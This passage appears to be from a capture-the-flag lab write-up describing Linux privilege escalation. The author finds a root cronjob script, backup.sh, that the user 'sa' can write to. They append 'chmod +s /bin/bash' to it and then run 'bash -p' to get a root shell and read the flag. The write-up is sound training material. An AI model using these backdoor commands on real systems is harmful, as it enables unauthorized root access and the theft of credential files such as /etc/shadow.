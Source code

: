 Enumerated the file system looking for files owned by 'sa' and found a backup.sh script.

```
sa@ip-10-10-200-238:~$ find / -type f -group sa 2>/dev/null -exec ls -l {} \; | grep -vi proc
-rw-r--r-- 1 sa sa 3771 Apr 19  2023 /home/sa/.bashrc
-rw-r--r-- 1 sa sa 807 Apr 19  2023 /home/sa/.profile
-rw-r--r-- 1 sa sa 220 Apr 19  2023 /home/sa/.bash_logout
-rwxr-xr-x 1 sa sa 211 Apr 19  2023 /usr/local/bin/backup.sh
```

It seems to be script that generated the archive we decompressed. 

```
sa@ip-10-10-200-238:~$ cat /usr/local/bin/backup.sh
#!/bin/bash

mkdir -p /tmp/backup
cp -r /opt/httpd /tmp/backup
cp /etc/passwd /tmp/backup
cp /etc/shadow /tmp/backup
cp /etc/rsyncd.conf /tmp/backup
zip -r /backup/$(date +%s).zip /tmp/backup
rm -rf /tmp/backup
```

We know that it runs in a cronjob as root, so let’s abuse our write permissions to create a backdoor.

```
sa@ip-10-10-200-238:~$ echo 'chmod +s /bin/bash' >> /usr/local/bin/backup.sh
sa@ip-10-10-200-238:~$ tail -n 1 /usr/local/bin/backup.sh
chmod +s /bin/bash
```

Waited for it to get executed `watch -n 1 ls -l /bin/bash` and got a shell as root. GGs!

```
sa@ip-10-10-200-238:~$ bash -p
bash-5.1# whoami
root

bash-5.1# cat /root/root.txt
VL{<REDACTED>}
```